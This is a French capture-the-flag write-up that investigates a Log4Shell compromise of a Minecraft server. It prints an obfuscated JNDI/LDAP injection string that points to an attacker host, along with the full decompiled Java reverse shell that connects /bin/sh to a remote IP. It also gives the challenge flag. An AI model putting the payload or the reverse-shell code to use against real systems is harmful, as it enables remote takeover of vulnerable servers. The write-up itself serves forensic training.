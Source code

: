 # Piratecraft

> Un service d'hébergement de serveurs de jeux fournit des VPS avec Minecraft préinstallé pour leurs clients. Certaines attaques ciblent les serveurs et les font tomber en panne. Vous êtes le nouvel administrateur système. Vous avez accès à un serveur attaqué. Détectez l'intrusion sur le serveur Minecraft et essayez de comprendre les actions malveillantes.
>
> > Information: utilisez les options suivantes avec la commande ssh pour éviter les déconnexions :
> >
> > ssh <address> -p <port> -o ServerAliveInterval=30 -o ServerAliveCountMax=2

## Description

En me connectant à la machine en tant que `user`, je vois une trace de l'attaque dans `.bash_history` :

```bash
whoami
mkdir /home/craft
cd /home/craft/
ls -lthar
apt-get update -y
apt-get install -y openjdk-17-jdk openjdk-17-jre git zip screen wget nano openssh-server php7.4
https://launcher.mojang.com/v1/objects/0a269b5f2c5b93b1712d0f5dc43b6182b9ab254e/server.jar
mv server.jar minecraft_server.jar
nano /home/craft/start.sh
chmod -R 775 /home/craft/
screen -ls
/home/craft/start.sh minecraft "java -Xmx1024M -Xms1024M -jar /home/craft/minecraft_server.jar nogui &"
screen -R minecraft
cat /var/log/minecraft.log
ls -lthar
pwd
whoami
netstat -lentupac
rm minecraft_server.jar
echo "Hacked by unhappy.competitor.com"
```

On voit que le fichier `minecraft_server.jar` a été supprimé, il faut probablement en retrouver la trace.

Je cherche des occurences de `unhappy.competitor.com` avec `find / unhappy.competitor.com`.
Je trouve l'URL également dans `minecraft.log` :

```
User Authenticator #10639/INFO]: UUID of player unhappy is a00b999e-001b-4807-b999-add902b9999c
[16:39:32] [Server thread/INFO]: unhappy[/172.240.18.1:57008] logged in with entity id 10991 at (-257.5, 67.0, -198.5)
[16:39:32] [Server thread/INFO]: unhappy joined the game
[16:39:33] [Server thread/INFO]: <unhappy> ${${k8s:k5:-J}${k8s:k5:-ND}i${sd:k5:-:}l${lower:D}ap${sd:k5:-:}//unhappy.competitor.com:1389/a} 
[16:39:33] [Server thread/INFO]: <unhappy> Reference Class Name: foo 
[16:40:02] [Server thread/INFO]: unhappy lost connection: Disconnected
[16:40:02] [Server thread/INFO]: unhappy left the game
```

Je vois donc l'attaque effectuée par l'attaquant : c'est une chaîne d'attaque log4shell du type `jndi:ldap` où l'attaquant instruit le serveur de télécharger une classe Java et de l'exécuter.

![log4shell](https://www.incibe-cert.es/sites/default/files/blog/2022/Log4Shell/fig1.jpg)

Avec un peu de chance, le fichier à télécharger est encore présent. Je le recherche avec la commande `ldapsearch -x -H ldap://unhappy.competitor.com:1389/a`.

Malheureusement, pas de réponse car l'adresse IP n'est pas la bonne. Même problème avec `172.240.18.1` l'adresse du client.

En cherchant un peu plus dans les log grâce à `find /var/log unhappy`, je trouve l'adresse du serveur et je peux donc réitérer la commande : `ldapsearch -x -H ldap://174.10.54.15:1389/a`.

```
# extended LDIF
#
# LDAPv3
# base <> (default) with scope subtree
# filter: (objectclass=*)
# requesting: ALL
#

#
dn:
javaClassName: foo
javaCodeBase: http://174.10.54.15:50666/
objectClass: javaNamingReference
javaFactory: Exploit84686564564857543

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
```

On a donc une nouvelle URL où se trouve le code, récupérons le fichier : `wget http://174.10.54.15:50666/Exploit84686564564857543.class`.

Je peux alors décompiler la classe grâce à [un décompilateur Java](http://www.javadecompilers.com/).

```java
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.nio.charset.StandardCharsets;
import java.util.Base64.Decoder;

public class Exploit
{
  public Exploit() throws Exception
  {
    try
    {
      String str1 = "174.10.54.15";
      int i = 8080;
      String str2 = "/bin/sh";
      Process localProcess = new ProcessBuilder(new String[] { str2 }).redirectErrorStream(true).start();
      Socket localSocket = new Socket(str1, i);
      InputStream localInputStream1 = localProcess.getInputStream();InputStream localInputStream2 = localProcess.getErrorStream();InputStream localInputStream3 = localSocket.getInputStream();
      OutputStream localOutputStream1 = localProcess.getOutputStream();OutputStream localOutputStream2 = localSocket.getOutputStream();
      String str3 = "";String str4 = "";
      int[] arrayOfInt1 = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
      int[] arrayOfInt2 = { 73, 121, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 70, 100, 70, 84, 69, 78, 80, 84, 85, 85, 103, 83, 85, 52, 103, 85, 48, 104, 70, 84, 69, 119, 103, 76, 83, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt3 = { 73, 121, 65, 116, 73, 67, 48, 103, 81, 85, 120, 77, 73, 70, 108, 80, 86, 86, 73, 103, 81, 49, 86, 67, 82, 86, 77, 103, 81, 86, 74, 70, 73, 69, 74, 70, 84, 69, 57, 79, 82, 121, 66, 85, 84, 121, 66, 86, 85, 121, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt4 = { 73, 121, 65, 116, 76, 83, 65, 107, 83, 71, 70, 106, 97, 50, 86, 107, 88, 50, 74, 53, 88, 51, 86, 117, 97, 71, 70, 119, 99, 72, 107, 117, 89, 50, 57, 116, 99, 71, 86, 48, 97, 88, 82, 118, 99, 105, 53, 106, 98, 50, 48, 103, 76, 83, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt5 = { 73, 121, 66, 69, 82, 48, 104, 66, 81, 48, 116, 55, 78, 68, 69, 120, 88, 49, 107, 119, 86, 88, 74, 102, 81, 49, 85, 52, 77, 122, 86, 102, 78, 72, 73, 122, 88, 122, 103, 122, 77, 84, 66, 79, 78, 108, 56, 51, 77, 70, 57, 86, 78, 88, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt6 = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
      str4 = ""; int m; for (m : arrayOfInt1) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (m : arrayOfInt2) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (m : arrayOfInt3) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (m : arrayOfInt4) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (m : arrayOfInt5) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (m : arrayOfInt6) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      localOutputStream2.write(str3.getBytes(StandardCharsets.UTF_8));
      while (!localSocket.isClosed()) {
        while (localInputStream1.available() > 0)
          localOutputStream2.write(localInputStream1.read());
        while (localInputStream2.available() > 0)
          localOutputStream2.write(localInputStream2.read());
        while (localInputStream3.available() > 0)
          localOutputStream1.write(localInputStream3.read());
        localOutputStream2.flush();
        localOutputStream1.flush();
        Thread.sleep(50L);
        try {
          localProcess.exitValue();
        }
        catch (Exception localException2) {}
      }
      

      localProcess.destroy();
      localSocket.close();
    }
    catch (Exception localException1) {
      System.out.println(localException1);
    }
  }
}
```

Je n'ai donc qu'à copier le code qui m'intéresse et afficher la sortie :

```java
import java.io.InputStream;
import java.io.OutputStream;
import java.net.Socket;
import java.nio.charset.StandardCharsets;
import java.util.Base64.Decoder;

public class Exploit
{
  public static void main(String[] args)
  {
    try
    {
      String str1 = "174.10.54.15";
      int i = 8080;
      String str2 = "/bin/sh";
      String str3 = "";String str4 = "";
      int[] arrayOfInt1 = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
      int[] arrayOfInt2 = { 73, 121, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 70, 100, 70, 84, 69, 78, 80, 84, 85, 85, 103, 83, 85, 52, 103, 85, 48, 104, 70, 84, 69, 119, 103, 76, 83, 65, 116, 73, 67, 48, 103, 76, 83, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt3 = { 73, 121, 65, 116, 73, 67, 48, 103, 81, 85, 120, 77, 73, 70, 108, 80, 86, 86, 73, 103, 81, 49, 86, 67, 82, 86, 77, 103, 81, 86, 74, 70, 73, 69, 74, 70, 84, 69, 57, 79, 82, 121, 66, 85, 84, 121, 66, 86, 85, 121, 65, 116, 73, 67, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt4 = { 73, 121, 65, 116, 76, 83, 65, 107, 83, 71, 70, 106, 97, 50, 86, 107, 88, 50, 74, 53, 88, 51, 86, 117, 97, 71, 70, 119, 99, 72, 107, 117, 89, 50, 57, 116, 99, 71, 86, 48, 97, 88, 82, 118, 99, 105, 53, 106, 98, 50, 48, 103, 76, 83, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt5 = { 73, 121, 66, 69, 82, 48, 104, 66, 81, 48, 116, 55, 78, 68, 69, 120, 88, 49, 107, 119, 86, 88, 74, 102, 81, 49, 85, 52, 77, 122, 86, 102, 78, 72, 73, 122, 88, 122, 103, 122, 77, 84, 66, 79, 78, 108, 56, 51, 77, 70, 57, 86, 78, 88, 48, 103, 73, 119, 61, 61 };
      int[] arrayOfInt6 = { 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 121, 77, 106, 73, 119, 61, 61 };
      str4 = ""; for (int m : arrayOfInt1) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (int m : arrayOfInt2) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (int m : arrayOfInt3) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (int m : arrayOfInt4) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (int m : arrayOfInt5) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      str4 = ""; for (int m : arrayOfInt6) str4 = str4 + (char)m; str3 = str3 + new String(java.util.Base64.getDecoder().decode(str4), StandardCharsets.UTF_8) + "\r\n";
      System.out.println(new String(str3.getBytes(StandardCharsets.UTF_8)));
    }
    catch (Exception localException1) {
      System.out.println(localException1);
    }
  }
}
```

Flag : `DGHACK{411_Y0Ur_CU835_4r3_8310N6_70_U5}`